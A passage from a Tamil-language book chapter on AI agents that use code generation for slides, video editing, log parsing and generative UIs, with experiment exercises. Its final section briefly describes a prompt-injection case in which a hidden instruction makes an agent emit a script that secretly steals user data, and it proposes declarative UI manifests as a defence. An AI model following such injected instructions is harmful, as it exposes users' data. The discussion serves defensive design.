பல சிக்கலான ஆவணங்களின் உருவாக்கம் அடிப்படையில் கட்டமைக்கப்பட்ட தரவுகளின் ஒழுங்கமைப்பு மற்றும் வழங்கல் ஆகும். ஒரு விளக்கக்காட்சி, ஒரு தொழில்நுட்ப அறிக்கை அல்லது ஒரு ஊடாடும் பயன்பாடு எதுவாக இருந்தாலும், அடிப்படை அமைப்பு குறியீட்டால் வரையறுக்கப்படுகிறது — HTML கட்டமைப்பை விவரிக்கிறது, CSS பாணியைக் கட்டுப்படுத்துகிறது, மற்றும் JavaScript ஊடாடுதலை செயல்படுத்துகிறது. பாரம்பரிய ஆவண உருவாக்கம் GUI இடைமுகங்கள் மூலம் WYSIWYG எடிட்டிங்கை நம்பியுள்ளது, ஆனால் இது agents களுக்கு உள்ளுணர்வு மிக்கதாகவோ அல்லது திறமையானதாகவோ இல்லை, ஏனெனில் GUI செயல்பாடுகளுக்கு காட்சி புரிதல் மற்றும் துல்லியமான ஒருங்கிணைப்பு நிலைப்பாடு தேவைப்படுகிறது. குறியீடு உருவாக்கம் மூலம், agents காட்சி நிலைப்பாட்டின் சவாலைத் தவிர்த்து, ஆவணங்களின் மீது துல்லியமான கட்டுப்பாட்டைப் பெறுகின்றன — ஒவ்வொரு உறுப்பின் நிலை, பாணி மற்றும் உள்ளடக்கம் தெளிவாக வரையறுக்கப்பட்டு, நிரலாக்க ரீதியாக மாற்றியமைக்கப்பட்டு மேம்படுத்தப்படலாம்.

**PPT generation agent.**

PPT உருவாக்கம் பெரும்பாலும் நேரம் எடுக்கும் மற்றும் உழைப்பு மிகுந்த செயலாகும். ஒரு பொதுவான கல்வி சார்ந்த விளக்கக்காட்சியில் பல டஜன் slides இருக்கலாம், ஒவ்வொன்றும் கவனமான layout வடிவமைப்பு, முக்கிய புள்ளிகள் பிரித்தெடுத்தல் மற்றும் chart தேர்வு தேவைப்படுகிறது. PPT உருவாக்கத்தை code generation பிரச்சினையாக மறுவடிவமைத்தால், சிக்கலை பெரிதும் எளிமைப்படுத்தலாம். நவீன PPT frameworks (Slidev போன்றவை) ஒரு நேர்த்தியான வடிவமைப்பு தத்துவத்தை பின்பற்றுகின்றன: விளக்கக்காட்சி உள்ளடக்கத்தை வரையறுக்க Markdown மற்றும் HTML ஐப் பயன்படுத்துதல். ஒரு slide ஐ உருவாக்க சுருக்கமான markup language எழுதினால் போதும், framework தானாகவே rendering, layout மற்றும் animation ஐ கையாள்கிறது. இது code generation திறன்களை மாஸ்டர் செய்த agents க்கு மிகவும் நட்பானது.



வெறுமனே code உருவாக்குவது மட்டும் போதாது. **Agent code எழுதிய பிறகு, அதன் உண்மையான rendering விளைவு தெரியாது**: உள்ளடக்கம் மிகவும் நெரிசலாக உள்ளதா, text overflow ஆகிறதா, image அளவுகள் பொருத்தமானதா — இவை அனைத்தும் உண்மையான rendering க்குப் பிறகே கண்டறிய முடியும். எனவே, code எழுதுதல் மற்றும் தர மதிப்பாய்வு ஆகியவற்றை இரண்டு சுயாதீன agents ஆக பிரிக்க **Proposer-Reviewer** பொறிமுறை (Figure 5-5 இல் காட்டப்பட்டுள்ளது) தேவைப்படுகிறது:

- **Proposer Agent** Slidev code ஐ உருவாக்குவதற்கு பொறுப்பானது, உள்ளடக்கத்தின் தர்க்கரீதியான கட்டமைப்பைப் புரிந்துகொண்டு, அதை நியாயமான பக்கங்களாக பிரிக்கிறது.
- **Reviewer Agent** code ஐ இயக்கி ஒவ்வொரு பக்கத்தையும் image ஆக render செய்கிறது, Vision LLM (படங்களை "பார்க்க" முடியும் multimodal பெரிய மாதிரி) ஐப் பயன்படுத்தி rendering முடிவுகளை content density, readability, layout நியாயம் மற்றும் visual aesthetics போன்ற பரிமாணங்களில் இருந்து பகுப்பாய்வு செய்து, **கட்டமைக்கப்பட்ட முன்னேற்ற பரிந்துரைகளை** உருவாக்குகிறது — தெளிவற்ற "நன்றாக இல்லை" அல்ல, மாறாக குறிப்பிட்ட, செயல்படக்கூடிய வழிகாட்டுதல் (எ.கா., "பக்கம் 3: அதிக உள்ளடக்கம், பிரிப்பதைக் கருத்தில் கொள்ளவும்"; "பக்கம் 7: code block font மிகவும் சிறியது, 14pt ஆக அதிகரிக்க பரிந்துரைக்கப்படுகிறது"), இதில் பக்க எண், சிக்கல் வகை மற்றும் தீவிரத்தன்மை போன்ற புலங்கள் அடங்கும்.

Proposer கருத்தைப் பெற்று, நோக்கத்தைப் புரிந்துகொண்டு code ஐ மாற்றியமைக்கிறது. புதிய பதிப்பு மீண்டும் Reviewer மதிப்பாய்வுக்கு சமர்ப்பிக்கப்படுகிறது, தரம் தரநிலையை பூர்த்தி செய்யும் வரை அல்லது அதிகபட்ச மறுமுறைகள் (எ.கா., 5 சுற்றுகள்) அடையும் வரை மீண்டும் மீண்டும் செய்யப்படுகிறது.

இந்த அத்தியாயத்தில் உள்ள Proposer-Reviewer iterative loop ஆனது, அத்தியாயம் 4 இல் உள்ள **pre-approval** பயன்பாட்டுடன் ஒரே தோற்றுவாயைப் பகிர்ந்து கொள்கிறது — இரண்டுமே Proposer-Reviewer paradigm இன் நிகழ்வுகளாகும்: உருவாக்கம் மற்றும் மதிப்பாய்வின் பிரிப்பு, இரண்டு models மூலம் சுயாதீன மதிப்பீடு. வேறுபாடு இலக்கு மற்றும் வடிவத்தில் உள்ளது: அத்தியாயம் 4 இது irreversible operations இன் பாதுகாப்பு மதிப்பாய்வுக்குப் பயன்படுத்துகிறது, அங்கு reviewer ஒரு single operation க்கு ஒப்புதல் அல்லது நிராகரிப்பை வழங்குகிறது; இந்த அத்தியாயம் content quality இன் iterative improvement க்குப் பயன்படுத்துகிறது — பல சுற்றுகள், மற்றும் reviewer க்கு proposer பார்க்க முடியாத புதிய தகவல்களுக்கு (rendering results) அணுகல் உள்ளது. Core design principles சீரானவை (shared goal constraints, ஒத்த errors இன் நிகழ்தகவைக் குறைக்க different model families ஐப் பயன்படுத்துதல், Proposer இன் trajectory இல் feedback ஒரு special event ஆகச் சேர்க்கப்படுகிறது). Single-agent loop க்குப் பதிலாக dual-agent division of labor ஐப் பயன்படுத்துவதன் **core advantage** **context management** இல் உள்ளது: Reviewer ஒவ்வொரு முறையும் சமீபத்திய பதிப்பின் rendering images ஐ மட்டுமே செயலாக்குகிறது, historical versions ஆல் பாதிக்கப்படாமல்; Proposer structured text feedback ஐ மட்டுமே குவிக்கிறது, குறைவான tokens ஐப் பயன்படுத்துகிறது மற்றும் reasoning ஐ எளிதாக்குகிறது. Single-agent தீர்வு ஒரே context இல் பல சுற்றுகளின் rendering images ஐ டஜன் கணக்கான பக்கங்களுக்குக் குவிக்க வேண்டும், இது context limit ஐ விரைவாக மீறும். இந்த வழிமுறை video editing மற்றும் log visualization பற்றிய அடுத்தடுத்த சோதனைகளில் மீண்டும் பயன்படுத்தப்படும்; அத்தியாயம் 10 Proposer-Reviewer paradigm க்கு அப்பால் உள்ள பிற multi-agent collaboration modes ஐ மேலும் ஆராயும்.

> **சோதனை 5-4 ★★: கட்டுரைகளிலிருந்து தானியங்கி PPT உருவாக்கம்**
>
> **சோதனை நோக்கம்**: கல்விக் கட்டுரைகளிலிருந்து தானாகவே உயர்தர விளக்கக்காட்சிகளை உருவாக்கி, content creation quality control இல் Proposer-Reviewer mechanism இன் செயல்திறனைச் சரிபார்க்கவும்.
>
> **தொழில்நுட்ப அணுகுமுறை**: Slidev framework ஐப் பயன்படுத்தவும். Proposer Agent கட்டுரை PDF ஐப் படித்து, chapter structure, core arguments மற்றும் figures ஐப் பிரித்தெடுத்து, PPT structure ஐத் திட்டமிட்டு, பக்கம் பக்கமாக Slidev code ஐ உருவாக்குகிறது. **Key step**: Reviewer Agent ஒவ்வொரு பக்கத்தின் screenshots ஐயும் render செய்து, rendering effect ஐச் சரிபார்க்க Vision LLM ஐப் பயன்படுத்துகிறது, text overflow, content crowding, மற்றும் inappropriate image sizes போன்ற சிக்கல்களை அடையாளம் கண்டு, structured improvement suggestions ஐ உருவாக்குகிறது. Effect தரத்தைப் பூர்த்தி செய்யும் வரை iterate செய்யவும்.
>
> **ஏற்பு அளவுகோல்கள்**: கட்டுரையின் முக்கிய பங்களிப்புகளை உள்ளடக்கிய 10-20 slides ஐ உருவாக்கவும். உடன் வரும் உரையுடன் பொருந்தக்கூடிய குறைந்தது 3 original figures ஐச் சேர்க்கவும். Rendering இல் text overflow இல்லை, நியாயமான layout. Single-agent self-review vs. Proposer-Reviewer division of labor இடையே context consumption மற்றும் generation quality இல் உள்ள வேறுபாடுகளை ஒப்பிடவும்.
>

> **சோதனை 5-5 ★★: கட்டுரை விளக்க வீடியோக்களின் தானியங்கி உருவாக்கம்**
>
> **சோதனை நோக்கம்**: PPT உருவாக்கத் திறன்களை விரிவுபடுத்தி, காட்சி மற்றும் செவிவழி சேனல்களை இணைத்து, விளக்க வீடியோக்களின் தானியங்கி உருவாக்கத்தை அடையவும்.
>
> **Technical approach**: Experiment 5-4 இன் PPT உருவாக்கப் பணிப்பாய்வின் அடிப்படையில், agent ஒரே நேரத்தில் ஒவ்வொரு slide-க்கும் உரையாடல் விளக்க உரையை உருவாக்குகிறது (மீண்டும் சொல்வதை விட வழிகாட்டும் விளக்கம்), TTS (text-to-speech) மூலம் பேச்சை ஒருங்கிணைக்க அழைக்கிறது, மேலும் PPT ஸ்கிரீன்ஷாட்களை ஆடியோவுடன் ஒத்திசைத்து வீடியோவை உருவாக்க ffmpeg-ஐப் பயன்படுத்துகிறது.
>
> **Acceptance criteria**: வீடியோ 5-15 நிமிடங்கள் நீளமானதாக இருக்க வேண்டும், ஒவ்வொரு slide-க்குமான காட்சி நேரம் பேச்சின் கால அளவுடன் சரியாக பொருந்த வேண்டும், மேலும் விளக்க உள்ளடக்கம் காட்சி உறுப்புகளுடன் ஒத்திருக்க வேண்டும்.
>
>
> 
>
>
**Video editing agent.**

வீடியோ எடிட்டிங்கிற்கு பொதுவான Computer Use-ஐப் பயன்படுத்துவது அடிப்படை சவால்களை எதிர்கொள்கிறது: வீடியோ எடிட்டிங் மென்பொருளின் GUI மிகவும் சிக்கலானது, ஏராளமான timelines, layers மற்றும் effect panels ஆகியவற்றைக் கொண்டுள்ளது. Agent இந்த இடைமுக உறுப்புகளை துல்லியமாக கண்டறிந்து, mouse மற்றும் keyboard செயல்பாடுகள் மூலம் எடிட் செய்ய வேண்டும், இது துல்லியமான coordinate வெளியீட்டை மிகவும் கடினமாக்குகிறது.

வீடியோ எடிட்டிங்கை API call மற்றும் code generation பிரச்சினையாக மறுவடிவமைப்பது சிக்கலை பெரிதும் குறைக்கிறது. பல தொழில்முறை மென்பொருள் கருவிகள் (எடுத்துக்காட்டாக, Blender — Python scripting-ஐ ஆதரிக்கும் திறந்த மூல 3D உருவாக்கம் மற்றும் வீடியோ கலவை கருவி; FFmpeg — ஆடியோ/வீடியோ செயலாக்கத்திற்கான command-line Swiss Army knife) நிரலாக்க API இடைமுகங்களை வழங்குகின்றன, அவை முக்கிய செயல்பாடுகளை கட்டமைக்கப்பட்ட, இணைக்கக்கூடிய முறையில் வெளிப்படுத்துகின்றன. எடுத்துக்காட்டாக, Blender Python API ஆனது வீடியோ கிளிப்புகளை இறக்குமதி செய்தல், ஒழுங்கமைத்தல், அமைத்தல், மாற்ற விளைவுகளைச் சேர்த்தல் மற்றும் ஆடியோவை கலத்தல் போன்ற செயல்பாடுகளை துல்லியமாக கட்டுப்படுத்த அனுமதிக்கிறது, ஒவ்வொரு செயல்பாடும் தெளிவான function call-ஐ ஒத்துள்ளது. ஒரு agent-க்கு, இயற்கை மொழி தேவைகளை API calls ஆக மாற்றுவது, GUI இடைமுகத்தைப் புரிந்துகொண்டு mouse clicks-ஐ உருவகப்படுத்துவதை விட மிகவும் எளிதானது. PPT உருவாக்கத்தைப் போலவே, வீடியோ எடிட்டிங்கும் Proposer-Reviewer mechanism-ஐப் பின்பற்றுகிறது — Proposer Agent Blender scripts-ஐ உருவாக்குகிறது, Reviewer Agent keyframes-ஐ render செய்து விளைவைச் சரிபார்க்க Vision LLM-ஐப் பயன்படுத்துகிறது, மாற்றத்திற்கான feedback-ஐ வழங்குகிறது.

> **Experiment 5-6 ★★: API-அடிப்படையிலான அறிவார்ந்த வீடியோ எடிட்டிங்**
>
> **Experiment objective**: Blender Python API code-ஐ உருவாக்குவதன் மூலம் வீடியோ எடிட்டிங் செய்யும் agent-ன் திறனைச் சரிபார்த்தல், மற்றும் multimedia உள்ளடக்க செயலாக்கத்தில் vision-feedback-அடிப்படையிலான Proposer-Reviewer mechanism-ன் பங்கை மதிப்பீடு செய்தல்.
>
> **Core challenge**: பயனரின் இயற்கை மொழி எடிட்டிங் தேவைகளைப் புரிந்துகொண்டு அவற்றை துல்லியமான API calls-களின் வரிசையாக மாற்றுதல், பல்வேறு எடிட்டிங் செயல்பாடுகளை (trimming, merging, subtitles, audio track mixing, visual effects) கையாளுதல், மற்றும் உருவாக்கப்பட்ட Python script சரியாக இயங்குவதை உறுதி செய்தல். Proposer Agent code-ஐ எழுதிய பிறகு, அது நேரடியாக வீடியோ விளைவை மதிப்பிட முடியாது; அது Reviewer Agent-ஐ render செய்து keyframes-ஐச் சரிபார்க்க Vision LLM-ஐப் பயன்படுத்த வேண்டும்.
> **Technical approach**: பயனர் வீடியோ பொருளை (எ.கா., surfing, hiking, skiing போன்ற காட்சிகளைக் கொண்ட மூல காட்சிகள்) வழங்கி, இயற்கை மொழியில் தேவைகளை விவரிக்கிறார் (எ.கா., "surfing பகுதியை வெட்டி எடு"). Proposer Agent, **இரண்டு-படி localization உத்தியை** பயன்படுத்தும் ஒரு video analysis sub-agent ஐப் பயன்படுத்துகிறது:
>
> **படி 1, coarse localization**: sub-agent ஐ அழைத்து, video path, ஒவ்வொரு 10 வினாடிக்கும் ஒரு screenshot interval, மற்றும் target question ஐ அனுப்பவும். sub-agent, ffmpeg ஐப் பயன்படுத்தி keyframes ஐப் பிடித்து, அனைத்து screenshots மற்றும் question ஐ Vision LLM இல் உள்ளீடு செய்து, scene interval ஐ (எ.கா., "Surfing 40-110 வினாடிகளுக்கு இடையில் உள்ளது") திருப்பி அனுப்புகிறது.
>
> **படி 2, fine-grained localization**: boundary time points ஐ துல்லியமாக கண்டறிய, ஒரு குறுகிய வரம்பு மற்றும் ஒவ்வொரு வினாடிக்கும் ஒரு screenshot density உடன் sub-agent ஐ மீண்டும் அழைக்கவும்.
>
> Video analysis ஐ sub-agent ஆக encapsulate செய்வது, அதிக எண்ணிக்கையிலான screenshots main agent இன் context ஐ ஆக்கிரமிப்பதைத் தடுக்கிறது. Localization க்குப் பிறகு, Blender API script ஐ உருவாக்கவும். Reviewer Agent ஒரு விரைவான preview ஐச் செய்து, keyframes ஐச் சரிபார்த்து, மாற்றத்திற்கான feedback ஐ வழங்குகிறது, full rendering க்கு முன் standard பூர்த்தி செய்யப்படும் வரை மீண்டும் செயல்படுகிறது.
>
> **Acceptance criteria**: Agent, வீடியோவில் உள்ள வெவ்வேறு காட்சிகளை துல்லியமாக அடையாளம் கண்டு, இயற்கை மொழி வழிமுறைகளின் அடிப்படையில் சரியாக editing scripts ஐ உருவாக்க முடியும். தொடக்கம் மற்றும் முடிவு புள்ளிகள் துல்லியமாக உள்ளன (3 வினாடிகளுக்குள் பிழை). வழிமுறைகளில் special effects தேவைகள் (slow motion, transitions, subtitles) இருந்தால், உருவாக்கப்பட்ட வீடியோ சரியாக effects ஐப் பயன்படுத்துகிறது. Reviewer Agent, வெளிப்படையான பிழைகளை (முக்கிய உள்ளடக்கம் இல்லாமை, பொருத்தமற்ற பகுதிகள் சேர்த்தல்) கண்டறிந்து, திருத்தங்களைத் தூண்ட முடியும். இறுதி output video file சரியான format இல் உள்ளது மற்றும் எதிர்பார்க்கப்படும் தரத்தை பூர்த்தி செய்கிறது.
>
### Code as a system adapter

முந்தைய பகுதிகளில் உள்ள குறியீடு பெரும்பாலும் "மனிதர்களை எதிர்கொள்ளும்" விஷயங்களை உருவாக்குகிறது — அறிக்கைகள், ஸ்லைடுகள், இடைமுகங்கள். இந்த பகுதியில் உள்ள குறியீடு மற்றொரு திசையை சுட்டிக்காட்டுகிறது: **இயந்திரத்தை இயந்திரத்துடன் இணைத்தல்**. உண்மையான அமைப்புகளில், agents தொடர்பு கொள்ள வேண்டிய வெளிப்புற சேவைகளில் பெரும்பாலும் ready-made SDKகள் இல்லை, மேலும் அவற்றின் இடைமுகங்கள் தரப்படுத்தப்படாமல் இருக்கலாம் — ஆவணங்கள் இல்லாமல் இருக்கலாம், return வடிவங்கள் non-standard ஆக இருக்கலாம், மேலும் புலங்கள் பதிப்புகளுடன் மாறலாம். இந்த சூழ்நிலையை எதிர்கொள்ளும் போது, agents ஒருவர் முன்கூட்டியே ஒரு adaptation layer எழுத காத்திருக்க தேவையில்லை; மாறாக, அவை இடத்திலேயே இடைமுக ஆவணங்களைப் படிக்கலாம், அல்லது ஒன்று அல்லது இரண்டு உண்மையான பதில்களை நேரடியாகக் கவனிக்கலாம், மேலும் இடத்திலேயே adaptation குறியீட்டை உருவாக்கலாம்: ஒரு HTTP client ஐ உருவாக்கவும், authentication headers ஐ இணைக்கவும், non-standard return கட்டமைப்புகளைப் பாகுபடுத்தவும், மேலும் upstream data model ஐ downstream நுகரக்கூடிய வடிவத்தில் மொழிபெயர்க்கவும். இங்குள்ள குறியீடு தன்னிச்சையான அமைப்புகளை இணைப்பதற்கான "உலகளாவிய பசை" ஆக செயல்படுகிறது — எங்கு இடைவெளி இருந்தாலும், அந்த இடைவெளியை நிரப்ப இடத்திலேயே ஒரு பசை துண்டு உருவாக்கப்படுகிறது. இதுவே "system interface" திசையில் meta-capability இன் மையமாகும். கீழே விரிவாக்கப்படும் log adaptive parsing, observability காட்சியில் இந்த திறனின் ஒரு உறுதியான வெளிப்பாடாகும்: தொடர்ந்து உருவாகும் log வடிவங்களை எதிர்கொள்ளும் போது, agent ஆனது இடத்திலேயே parsing குறியீட்டை உருவாக்கி மாற்றியமைக்கவும் நம்பியுள்ளது.

இந்த "உலகளாவிய பசை" **எந்த APIயும் இல்லாத அமைப்புகளுக்கும்** நீட்டிக்க முடியும்: ஒரு வெளிப்புற அமைப்பு ஒரு வரைகலை இடைமுகத்தை மட்டுமே வெளிப்படுத்தும் போது, agent முதலில் Computer Use மூலம் இடைமுகத்தை இயக்கலாம் (அத்தியாயம் 9 இல் விரிவாக விளக்கப்பட்டுள்ளது), பின்னர் வெற்றிகரமாக முடிக்கப்பட்ட செயல்பாட்டு வரிசையை குறியீட்டைப் பயன்படுத்தி ஒரு RPA கருவியாக உறுதிப்படுத்தலாம் — எதிர்காலத்தில் அதே பணியை செயல்படுத்தும் போது, அது நேரடியாக குறியீட்டை இயக்குகிறது, விலையுயர்ந்த காட்சி பகுத்தறிவை அழைக்க வேண்டிய அவசியமின்றி, மிக அதிக வேகம் மற்றும் நிலைத்தன்மையுடன் செயல்பாட்டை நிறைவு செய்கிறது. RPA என்பது இடைமுக அமைப்புகளுக்கான "system adapter" இன் தீவிர வடிவம் என்று கூறலாம்; இந்த "workflow recording and solidification" பொறிமுறை அத்தியாயம் 8 இல் விரிவாக்கப்படும்.

தரவு செயலாக்கம் என்பது மென்பொருள் அமைப்புகளில் மிகவும் பொதுவான ஆனால் மிகவும் சிக்கலான பணிகளில் ஒன்றாகும். இதன் மூல காரணம் தரவு வடிவங்களின் பன்முகத்தன்மை மற்றும் நிலையான மாற்றமாகும். ஒரே அமைப்பு அதன் பரிணாம வளர்ச்சியின் போது தரவு வடிவங்களை பல முறை மாற்றலாம் — புதிய புலங்களைச் சேர்ப்பது, உள்ளமை கட்டமைப்புகளை மாற்றுவது, புதிய வகைகளை அறிமுகப்படுத்துவது. ஒவ்வொரு வடிவத்திற்கும் கைமுறையாக parsing குறியீட்டை எழுதுவது மிக அதிக பராமரிப்பு செலவுகளை ஏற்படுத்துகிறது; ஒவ்வொரு வடிவ மாற்றத்திற்கும் parsing லாஜிக்கைப் புதுப்பிக்க வேண்டும், இணக்கத்தன்மையை சோதிக்க வேண்டும், மேலும் புதிய பதிப்பை வரிசைப்படுத்த வேண்டும்.

Code generation ஒரு முற்றிலும் புதிய அணுகுமுறையை வழங்குகிறது: ஒரு புதிய வடிவத்தை சந்திக்கும் போது, agent மாதிரி தரவின் அடிப்படையில் தற்காலிகமாக parsing குறியீட்டை உருவாக்கட்டும், இது மனித தலையீடு இல்லாமல் தரவு வடிவங்களின் பரிணாம வளர்ச்சிக்கு தானாகவே மாற்றியமைக்க அமைப்பை அனுமதிக்கிறது.

**Agent log parsing மற்றும் visualization.**

Agent அமைப்புகளின் observability ஆனது execution flow-களின் visualization-ஐ சார்ந்துள்ளது. ஒரு சிக்கலான Agent பணியில் நூற்றுக்கணக்கான படிகள் இருக்கலாம், பல LLM calls, டஜன் கணக்கான tool executions, மற்றும் பல sub-agents இடையேயான interactions ஆகியவை அடங்கும். இந்த தரவை visualize செய்வது பல சவால்களை எதிர்கொள்கிறது: வெவ்வேறு tools வெவ்வேறு structures-இல் தரவைத் தருகின்றன, மேலும் system iterations-உடன் formats உருவாகின்றன; ஒரு முழுமையான trajectory நூறாயிரக்கணக்கான characters-ஐக் கொண்டிருக்கலாம், overview மற்றும் detail இடையே ஒரு சமநிலை தேவைப்படுகிறது.

Code generation ஒரு நேர்த்தியான தீர்வை வழங்குகிறது: ஒரு auto-repair feedback loop-ஐ நிறுவுதல். Frontend ஒரு unparseable log format-ஐ சந்திக்கும் போது, error-ஐ காண்பிப்பதற்குப் பதிலாக, அது தானாகவே failure information (raw log sample, detailed error) ஐ Agent-க்கு அறிவிக்கிறது. Agent sample data structure-ஐ பகுப்பாய்வு செய்து, அதைச் சரியாக parse செய்யக்கூடிய frontend code-ஐ உருவாக்குகிறது. Code முதலில் ஒரு virtual browser-இல் தானாக சோதிக்கப்படுகிறது (parsing correctness-ஐ சரிபார்த்தல், Vision LLM-ஐப் பயன்படுத்தி visualization effects-ஐ சரிபார்த்தல்), மேலும் தேர்ச்சி பெற்றவுடன், frontend system-இல் hot-update செய்யப்படுகிறது.

> **சோதனை 5-7 ★★★: Adaptive Log Parsing System**
>
> **சோதனை இலக்கு**: ஒரு self-evolving Agent log visualization system-ஐ உருவாக்குதல்.
>
> **தொழில்நுட்ப அணுகுமுறை**: ஆரம்ப system அடிப்படை formats-ஐ மட்டுமே ஆதரிக்கிறது. Frontend parsing failure-ஐ கண்டறிதல் → Agent-க்கு அறிவித்தல் → Parsing code உருவாக்குதல் → Virtual browser testing → Hot-update deployment. முழு செயல்முறையும் தானியங்கி.
>
> **ஏற்பு அளவுகோல்கள்**: தானாகவே failures-ஐ கண்டறிந்து learning-ஐத் தூண்டுதல், automated tests-ஐ தேர்ச்சி பெறும் code-ஐ உருவாக்குதல், hot-update-க்குப் பிறகு புதிய formats-ஐ சரியாக parse செய்தல்.
>
**Agent தானியங்கி log analysis மற்றும் problem diagnosis-ஐ செய்கிறது.**

Production environment-இல் உள்ள Agents அதிக அளவிலான trajectory logs-ஐ உருவாக்குகின்றன (ஒவ்வொரு பணியின் முழுமையான செயல்முறையையும் பதிவு செய்கின்றன). இருப்பினும், இந்த logs-இலிருந்து சிக்கல்களை அடையாளம் காண்பது, root causes-ஐ கண்டறிவது மற்றும் test cases-ஐ உருவாக்குவது அதிக செலவு கொண்ட முயற்சியாகும். Problem localization கடினம், ஏனெனில் பணி தோல்விகள் பல modules முழுவதும் உள்ள collaborative errors-இலிருந்து ஏற்படலாம்; reproduction costs அதிகம், ஏனெனில் production environment-இன் சிக்கலை test environment-இல் உருவகப்படுத்துவது கடினம்; மேலும் சரி செய்யப்பட்ட சிக்கல்கள் systematic regression testing இல்லாததால் மீண்டும் ஏற்படுகின்றன.

குறியீடு உருவாக்கம் (Code generation) கண்டறிதலுக்கான தானியங்கி வழியை வழங்குகிறது. Agent ஆனது உற்பத்தி பதிவுகளை (production logs) படித்து, அவற்றை architecture documents மற்றும் PRD (Product Requirement Documents) உடன் இணைத்து, execution flow எதிர்பார்ப்புகளை பூர்த்தி செய்கிறதா என்பதை தானாகவே தீர்மானித்து, சிக்கலான கூறுகள் மற்றும் modules ஐ சுட்டிக்காட்ட முடியும். பகுப்பாய்வு முடிவுகளின் அடிப்படையில், இது கட்டமைக்கப்பட்ட சிக்கல் அறிக்கைகளை (priority, module, description, improvement suggestions) மற்றும் regression test cases ஐ உருவாக்குகிறது—test cases ஆனது problem trajectory ID மற்றும் முக்கிய interaction rounds ஐ குறிப்பிடுகின்றன, மேலும் test framework தானாகவே அவற்றை மீண்டும் இயக்கி, சரி செய்யப்பட்ட அமைப்பு அதே input க்கு சரியான நடத்தையை உருவாக்குகிறதா என்பதை சரிபார்க்கிறது. இறுதியாக, Agent ஆனது MCP வழியாக GitHub உடன் இணைந்து ஒரு Issue ஐ உருவாக்கி, அதை சம்பந்தப்பட்ட developer க்கு ஒதுக்குகிறது, இதனால் சிக்கல் கண்டுபிடிப்பு முதல் பணி ஒதுக்கீடு வரையிலான முழு தானியக்கமும் நிறைவடைகிறது.

> **சோதனை 5-8 ★★★: உற்பத்தி பதிவுகளுக்கான அறிவார்ந்த கண்டறியும் அமைப்பு**
>
> **சோதனை குறிக்கோள்**: உற்பத்தி trajectories இலிருந்து தானாகவே சிக்கல்களை கண்டறிந்து, test cases ஐ உருவாக்கி, பணி உருப்படிகளை உருவாக்குதல்.
>
> **தொழில்நுட்ப அணுகுமுறை**: Agent ஆனது உற்பத்தி trajectories இன் தொகுப்பைப் படித்து, system architecture documents மற்றும் PRD உடன் இணைந்து பகுப்பாய்வு செய்கிறது: சிக்கல் வடிவங்களை அடையாளம் கண்டு, சம்பந்தப்பட்ட modules ஐ கண்டறிகிறது. கட்டமைக்கப்பட்ட சிக்கல் அறிக்கைகளை (priority, module, description, improvement suggestions) உருவாக்குகிறது. தானாகவே regression test cases ஐ உருவாக்குகிறது (trajectory IDs மற்றும் interaction rounds ஐ குறிப்பிட்டு, test framework ஆல் தானாக மீண்டும் இயக்கப்பட்டு சரிபார்க்கப்படுகிறது). MCP வழியாக GitHub இல் தானாகவே Issues ஐ உருவாக்குகிறது.
>
>
> 
>
>
### Generative UI ஆக Code

பாரம்பரிய Agent அமைப்புகள் முதன்மையாக பயனர் தொடர்புக்கு எளிய உரை உரையாடலை நம்பியுள்ளன. இருப்பினும், உரை, ஒரு நேரியல் மற்றும் ஒற்றை தொடர்பு முறையாக, பல சூழ்நிலைகளில் திறமையற்றது. கட்டமைக்கப்பட்ட தகவல்களை சேகரிக்க வேண்டியிருக்கும் போது, மீண்டும் மீண்டும் Q&A உரையாடலை நீளமாக்குகிறது; சிக்கலான தரவு உறவுகளை வழங்க வேண்டியிருக்கும் போது, எளிய உரைக்கு வெளிப்படுத்தும் திறன் குறைவாக உள்ளது; பயனர்கள் பல விருப்பங்களிலிருந்து தேர்வு செய்ய வேண்டியிருக்கும் போது, உரை பட்டியல் ஒரு காட்சி இடைமுகத்தை விட மிகவும் குறைவான உள்ளுணர்வு கொண்டது.

குறியீடு உருவாக்கம் இந்த வரம்புகளை உடைக்கும் சாத்தியத்தை வழங்குகிறது: Agents ஆனது படிவங்கள், ஊடாடும் விளக்கப்படங்கள் மற்றும் முழுமையான web applications ஐ கூட மாறும் வகையில் உருவாக்க முடியும், நிலையான உரை உரையாடலை வளமான multimodal interaction ஆக மேம்படுத்துகிறது. Agent ஆனது இடைமுகத்தை மாறும் வகையில் உருவாக்கும் இந்த முறை **Generative UI** என்று அழைக்கப்படுகிறது.

**A2UI-போன்ற நெறிமுறைகள்: Generative UI ஐ தரப்படுத்துதல்.**

Agent-கள் நேரடியாக HTML மற்றும் JavaScript குறியீட்டை UI ஆக உருவாக்கும்போது, ஒரு அடிப்படை பாதுகாப்பு சிக்கல் உள்ளது: உருவாக்கப்பட்ட குறியீட்டில் தீங்கு விளைவிக்கும் உள்ளடக்கம் இருக்கலாம். எடுத்துக்காட்டாக, உள்ளீட்டில் யாராவது வேண்டுமென்றே ஒரு அறிவுறுத்தலை மறைத்தால், Agent ஆனது prompt injection மூலம் கையாளப்படலாம், மேலும் பயனர் தரவை ரகசியமாக திருடும் ஒரு script-ஐ அறியாமல் உருவாக்கலாம். காரண காரியத்தை தெளிவுபடுத்துவது முக்கியம்: காரணம் **prompt injection** (Agent-ன் உள்ளீட்டில் கலந்த தீங்கு விளைவிக்கும் அறிவுறுத்தல்கள்), அதேசமயம் உலாவியில் தீங்கு விளைவிக்கும் scripts-ஐ இயக்கி தரவை திருடும் **விளைவு** பாரம்பரிய Web XSS (Cross-Site Scripting) போன்றது—இந்த முழு தாக்குதலையும் வெறுமனே XSS என்று அழைக்கக்கூடாது. A2UI (Agent-to-User Interface) ஆல் பிரதிநிதித்துவப்படுத்தப்படும் Declarative interface protocols பாதுகாப்பான திசையை வழங்குகின்றன: Agent நேரடியாக இயக்கக்கூடிய குறியீட்டை உருவாக்காது, மாறாக "UI description manifest" (JSON வடிவத்தில்) மட்டுமே வெளியிடுகிறது, அதாவது "3 வரிசைகள் மற்றும் 2 நெடுவரிசைகள் கொண்ட அட்டவணையை, 'Sales Data' என்ற தலைப்புடன் காண்பி." இந்த manifest-ஐப் பெற்றவுடன், client ஆனது அதன் சொந்த முன் வரையறுக்கப்பட்ட, பாதுகாப்பான கூறுகளைப் பயன்படுத்தி இடைமுகத்தை வழங்குகிறது. இது ஒரு உணவக மெனுவைப் போன்றது: வாடிக்கையாளர் (Agent) மெனுவில் உள்ள உணவுகளை (முன் வரையறுக்கப்பட்ட கூறுகள்) மட்டுமே ஆர்டர் செய்ய முடியும், சமையலறைக்குள் சென்று சமைக்க முடியாது (தன்னிச்சையான குறியீட்டை இயக்க முடியாது). ஒரு பொதுவான 